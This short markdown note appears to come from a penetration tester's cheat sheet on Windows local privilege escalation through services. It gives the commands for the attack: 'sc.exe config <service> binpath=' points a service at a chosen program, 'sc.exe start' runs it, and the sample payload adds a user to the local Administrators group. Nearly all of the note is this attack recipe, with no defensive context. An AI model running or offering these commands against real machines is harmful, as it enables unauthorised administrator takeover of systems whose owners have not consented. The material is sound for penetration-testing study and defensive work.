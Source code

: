 # windows

#plateform/windows #target/local #cat/PRIVESC/SERVICE



## modify service bin path
"net localgroup Administrators <user> /add"
sc.exe start <service>
```cmd
sc.exe config <service> binpath= "<program>"
```
